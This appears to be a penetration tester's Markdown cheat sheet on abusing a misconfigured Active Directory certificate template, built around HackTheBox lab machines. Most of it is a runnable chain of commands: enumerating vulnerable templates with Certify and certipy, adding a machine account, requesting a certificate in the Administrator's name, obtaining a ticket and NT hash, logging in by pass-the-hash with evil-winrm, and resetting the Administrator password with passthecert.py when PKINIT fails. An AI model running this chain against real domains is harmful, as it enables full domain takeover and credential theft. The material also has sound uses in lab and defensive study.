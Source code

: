 ## [[Tools]]
- Certify.exe
- certipy-ad
- passthecert.py

## Exploit Summary
>Vulnerable certificates make it possible to request a certificate in the context of another user like Administrator. This permits us to receive the NT-Hash or change the password of the user, and therefore login.


## Example Vulnerable Certificate
>This certificate is vulnerable because of primarly 2 fields. The field `ENROLLEE_SUPPLIES_SUBJECT` means that the user which requests the certificate can supplie a user for which the certificate is valid for. 
>The second field is the `HTB\Domain Computers` permissions field. This means that anyone in this group can request this certificate. Every computer in the domain is in this group, so any user can request this certificate as any user. 
```
CA Name                           : authority.authority.htb\AUTHORITY-CA
Template Name                     : CorpVPN
Schema Version                    : 2
Validity Period                   : 20 years
Renewal Period                    : 6 weeks
msPKI-Certificate-Name-Flag       : ENROLLEE_SUPPLIES_SUBJECT
mspki-enrollment-flag             : INCLUDE_SYMMETRIC_ALGORITHMS
Authorized Signatures Required    : 0
pkiextendedkeyusage               : Client Authentication
mspki-certificate-application-policy  : Client Authentication
Permissions
  Enrollment Permissions
	Enrollment Rights           : HTB\Domain Admins
								  HTB\Domain Computers
								  HTB\Enterprise Admins
```



## Exploit

### Find Vulnerable Certificates
##### Windows
```sh
.\Certify.exe find /Vulnerable
```
##### Linux
```sh
certipy-ad find -vulnerable -u 'USER@DOMAIN' -p 'PASS' -dc-ip IP -stdout
```

### Add Computer to Group "Domain Computers"
>We need to add a computer that we control to the group "Domain Computers". The vulnerable certificate makes it possible for the domain computers group to request certificates. It is possible for a normal user to add a computer because of the `MachineAccountQuota` attribute to the domain user, which defaults to 10, and is a number on how many machines a user can register in the domain.
```sh
impacket-addcomputer 'DOMAIN/USERNAME:PASSWORD' -method LDAPS -computer-name 'TEST$' -computer-pass 'password'
```

### Request Certificate
>We request a certificate as the newly created domain computer that is in the context of the Administrator for example. 
##### Linux
```sh
certipy-ad req -u 'TEST$' -p 'password' -ca 'AUTHORITY-CA' -target TARGET/DNS-NAME -dc-ip IP -dns DNS -template TEMPLATE -upn Administrator@DOMAIN
```

### Authenticate as user
>After we received the certificate, we can authenticate with it.
##### Windows
```sh
.\Rubeus.exe asktgt /user:Administrator /certificate:admin.pfx /password:PASSWORD /ptt /getcredentials
```
##### Linux
```sh
certipy-ad auth -pfx admin.pfx -dc-ip IP
```

### Convert kirbi to ccache ticket
```sh
impacket-ticketConverter ticket.kirbi ticket.ccache
```

### Login with NTLM hash
```sh
evil-winrm -i manager.htb -u "Administrator" -H 'AE5064C2F62317332C88629E025924EF'
```


### Extra: If Domain Controllers does not support PKINIT
>If the Domain Controller doesnt support the method above, and we receive the error below. We can use `passthecert.py` to change the password of the Administrator user, and then login.
##### Example Error Message
```sh
$ certipy-ad auth -pfx administrator_authority.pfx -dc-ip 10.129.89.14
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Found multiple identifications in certificate
[*] Please select one:
    [0] UPN: 'administrator@authority.htb'
    [1] DNS Host Name: 'authority.htb'
> 0
[*] Using principal: administrator@authority.htb
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)
```
##### Extract `pfx` file into `crt` and `key` 
```sh
certipy-ad cert -pfx admin.pfx -nokey -out cert.crt
certipy-ad cert -pfx admin.pfx  -nocert -out privkey.key
```
##### Change password of Administrator user
```sh
python3 passthecert.py -action modify_user -crt cert.crt  -key privkey.key  -domain DOMAIN -dc-ip IP -target Administrator -new-pass
```